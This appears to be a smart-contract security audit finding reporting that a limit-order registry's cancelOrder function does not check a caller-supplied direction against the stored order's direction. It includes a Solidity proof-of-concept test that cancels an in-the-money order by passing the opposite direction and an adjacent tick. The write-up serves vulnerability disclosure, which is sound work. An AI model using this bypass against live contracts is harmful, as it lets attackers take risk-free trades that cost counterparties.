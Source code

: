 The main flaw is that users are able to provide a custom `direction` as a parameter but there is no validation that `direction == order.direction`.

A malicious user can therefore pass the opposite direction with target tick separated by one tick space from the real target tick to satisfy the OTM condition.

Once the batch order is retrieved from `positionId`, the function will continue to work correctly as it makes of use of `order.direction` from there ownard.

**Impact:** Malicious users can cancel orders at a given target tick by providing tick separated by one tick space and opposite direction. This could result in their placing of risk-free trades which can be cancelled at-will even when they are ITM and should not be able to be cancelled.

**Proof of Concept:**
```solidity
function testCancellingITMOrderWrongly() external {
        uint96 usdcAmount = 1_000e6;
        int24 poolTick;
        int24 tickSpace = USDC_WETH_05_POOL.tickSpacing();
        {
            (, int24 tick, , , , , ) = USDC_WETH_05_POOL.slot0();
            poolTick = tick - (tick % tickSpace);
        }

        // Create orders.
        _createOrder(address(this), USDC_WETH_05_POOL, 2 * tickSpace, USDC, usdcAmount);

        // Make first order ITM.
        {
            address[] memory path = new address[](2);
            path[0] = address(WETH);
            path[1] = address(USDC);

            uint24[] memory poolFees = new uint24[](1);
            poolFees[0] = 500;

            uint256 swapAmount = 770e18;
            deal(address(WETH), address(this), swapAmount);
            _swap(path, poolFees, swapAmount);
        }

        (, int24 currentTick, , , , , ) = USDC_WETH_05_POOL.slot0();

        // Try to cancel it. But revert as it's ITM.
        vm.expectRevert(
            abi.encodeWithSelector(
                LimitOrderRegistry.LimitOrderRegistry__OrderITM.selector,
                currentTick,
                poolTick + 20,
                true
            )
        );
        registry.cancelOrder(USDC_WETH_05_POOL, poolTick + 2 * tickSpace, true);

        // Cancel with opposite direction, separated by one tick space
        registry.cancelOrder(USDC_WETH_05_POOL, poolTick + tickSpace, false);
    }
```
